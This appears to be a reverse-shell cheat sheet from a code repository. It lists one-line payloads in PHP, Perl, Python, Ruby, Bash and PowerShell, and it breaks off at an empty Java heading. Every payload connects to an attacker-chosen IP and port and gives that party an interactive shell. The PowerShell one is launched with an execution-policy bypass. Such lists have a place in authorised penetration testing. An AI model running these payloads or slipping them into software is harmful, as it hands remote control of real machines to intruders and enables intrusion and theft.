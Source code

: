 Tiny Reverse Shell

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.36.167/1337 0>&1'");
```

### Perl Reverse Shell

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

### Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Ruby Reverse Shell

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Bash Reverse Shell

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Powershell Reverse Shell

Create a simple powershell script called reverse.ps1:

```powershell
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}
```

```powershell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

### Java Reverse Shell
